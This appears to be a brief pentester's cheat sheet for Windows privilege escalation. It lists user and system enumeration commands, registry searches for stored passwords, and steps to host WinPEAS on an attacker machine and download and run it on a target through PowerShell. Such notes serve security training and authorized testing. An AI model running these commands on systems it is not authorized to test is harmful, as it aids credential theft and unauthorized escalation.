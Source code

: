 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic product get name,version,vendor` installed apps
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?
- `cmdkey /list` list
- `reg query HKLM /f password /t REG_SZ /s` registry key containing passwords
- `reg query HKCU /f password /t REG_SZ /s` registry key containing passwords
<!-- -->

		Kernal Exploits
- `driverquery`
### Winpeas.exe
Local:
- `python3 -m http.server 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)